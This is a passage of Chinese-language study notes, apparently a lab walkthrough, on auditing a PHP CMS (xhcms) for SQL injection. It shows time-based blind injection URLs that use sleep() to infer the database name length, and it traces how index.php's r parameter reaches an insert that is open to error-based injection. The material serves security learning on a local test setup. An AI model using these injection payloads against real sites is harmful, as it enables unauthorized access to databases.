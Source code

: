 ```plain
可以结合布尔注入来进行测试
127.0.0.1:8081/web/mysql/news.php?id=1 and if(length(database())=5,sleep(5),0)
没有延迟
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135676147-06c94781-6b03-4da7-a22e-49a7526a0464.png)

```plain
127.0.0.1:8081/web/mysql/news.php?id=1 and if(length(database())=11,sleep(5),0)
延迟5秒
根据两个数据包返回不同，就可以判断出数据库的长度为11位。
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135676159-0ded9fad-f826-49ae-b0f6-48b95eb12002.png)

- 查询-select-xhcms-布尔盲注

SELECT column_name,column_name FROM table_name;

- 插入-insert-xhcms-报错盲注

INSERT INTO table_name (列1, 列2,...) VALUES (值1, 值2,....)全局搜索insert关键字，发现关键代码上的文件files/submit.php

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135676133-a88fc5b7-a6dc-4442-b064-116639aee0f6.png)

对应的表interaction

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135676376-a1399695-e6bb-4ec9-b3a4-2b8033d0b61d.png)

```plain
在insert下面发现关键性代码：@mysql_query($query) or die('新增错误：'.mysql_error());
这个时候可以采用报错注入。
那么应该怎么触发这个文件呢？（files/submit.php）
主要看index.php文件。
<?php
//单一入口模式
error_reporting(0); //关闭错误显示
$file=addslashes($_GET['r']); //接收文件名
$action=$file==''?'index':$file; //判断为空或者等于index
include('files/'.$action.'.php'); //载入相应文件
?>

在index.php中，接受r参数，包含一个'files/'.$action.'.php'文件，只要让action=submit就可以触发这个文件。
构造访问地址：127.0.0.1:8087/index.php?r=submit
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135676482-6dcb8292-9fd4-4f25-9f2b-4ffaaa11fba3.png)

出现错误，在进行读files/submit.php代码，发现进行到的代码段

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135676479-2dbeb6d1-e8eb-4a46-b54d-405f2e693477.png)

```plain
我们可以进行自己构造参数来访问，在post自己发送参数。但是这里不需要这样去访问，我们可以测试那个文件调用了这个files/submit.php文件。
访问127.0.0.1:8087/index.php?r=contact地址，一样也可以触发submit文件
查看files/contact.php文件，看提交的数据是给谁。
```

